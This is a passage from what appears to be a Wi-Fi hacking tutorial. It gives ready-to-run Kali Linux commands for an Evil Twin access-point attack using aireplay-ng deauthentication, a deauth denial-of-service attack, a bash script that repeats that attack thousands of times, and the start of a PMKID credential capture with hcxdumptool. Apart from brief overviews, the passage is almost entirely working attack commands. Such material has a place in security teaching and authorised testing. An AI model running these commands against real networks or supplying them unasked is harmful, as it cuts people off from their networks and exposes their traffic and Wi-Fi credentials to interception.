     ```bash
    kali > dhclient ha &
    ```
4.  **Deauthentication:** Use `aireplay-ng` to send deauthentication frames to disconnect clients from the legitimate AP and force them to connect to the Evil Twin AP:

    ```bash
    kali > aireplay-ng --deauth 1000 aa:bb:cc:dd:ee:ff wlan0mon --ignore-negative-one
    ```

**Traffic Analysis:** Capture and analyze intercepted traffic using Wireshark on interface `ha`.

### Denial of Service (DoS) Attack

**Overview:** A DoS attack against a Wi-Fi network involves sending a high volume of deauthentication frames to disrupt connectivity for legitimate users.

**DoS Attack Command:** Send deauthentication frames (`-deauth`) to the AP identified by `<BSSID>` to disconnect clients temporarily:

```bash
kali > aireplay-ng --deauth 100 -a <BSSID> wlan0mon
```

**Persistent DoS Attack Script:** Create a BASH script to automate deauthentication attacks at regular intervals:

```bash
#!/bin/bash
for ((i=1; i<=5000; i++))
do
    aireplay-ng --deauth 100 -a <BSSID> wlan0mon
    sleep 60
done
```

Adjust the loop count (`5000`) and sleep time (`60` seconds) as needed.

### PMKID Attack

**Overview:** The PMKID attack targets vulnerabilities in the WPA/WPA2-PSK authentication process to capture credentials without needing to deauthenticate a client.

**Attack Process:**

1.  **Capture PMKID:** Use `hcxdumptool` to capture PMKID packets from nearby APs:

    ```bash
    kali > hcxdumptool -i wlan0mon -o HackersArisePMKID --enable_status=1
    ```
